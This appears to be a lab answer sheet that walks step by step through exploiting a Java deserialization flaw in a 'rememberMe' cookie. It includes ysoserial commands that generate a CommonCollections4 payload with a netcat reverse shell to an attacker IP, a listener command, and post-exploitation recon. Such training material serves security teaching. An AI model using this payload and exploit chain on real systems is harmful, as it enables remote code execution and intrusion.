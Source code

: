 # Java Deserialization Answersheet

**Step 1:** Click on "Java Website: 16661" link
<kbd> <img src="1.png" /> </kbd>
<br /> <br />

**Step 2:** Provide the following credential and tick the "Remember Me" option and click on Submit button.
```
Username: admin
Password: password
```
Note: The registration functionality is disabled for this application.
<kbd> <img src="2.png" /> </kbd>
<br /> <br />

**Step 3:** Capture the HTTP request and send this request to repeater "Right Click -> Send to Repeater".
<kbd> <img src="3.png" /> </kbd>
<br /> <br />

**Step 4:** Click on "send" button and observe that the server respond with "rememberMe" cookie which has java serialized magic string starting with "rO0".
<kbd> <img src="4.png" /> </kbd>
<br /> <br />

**Step 5:** Observe the serialized value after decode it with Base64.
<kbd> <img src="5.png" /> </kbd>
<br /> <br />

**Step 6:** Forward the request captured in **Step 3** and click on "Login" button.
<kbd> <img src="6.png" /> </kbd>
<br /> <br />

**Step 7:** Download the YSoSerial utility from following location, and use the following command to check the payload available.
https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar
```
java -jar ysoserial-master-SNAPSHOT.jar
```
<kbd> <img src="7.png" /> </kbd>
<br /> <br />

**Step 8:** Capture the IP address and use that to generate the reverse shell payload using following command and capture the generated payload.
```
java -jar ysoserial-master-SNAPSHOT.jar CommonCollections4 "nc 192.168.29.88 4444 -e /bin/bash" | base64 -w 0
```
<kbd> <img src="8.png" /> </kbd>
<br /> <br />

**Step 9:** Start the listener using following command
```
nc -nlvp 4444
```
<kbd> <img src="9.png" /> </kbd>
<br /> <br />

**Step 10:** Replace the payload generated in **Step 8** in "RememberMe" parameter and click on "send" button to send request to the server.
<kbd> <img src="10.png" /> </kbd>
<br /> <br />

**Step 11:** Received the reverse shell and obtained the server information using whoami, uname -a, ifconfig.
<kbd> <img src="11.png" /> </kbd>
<br /> <br />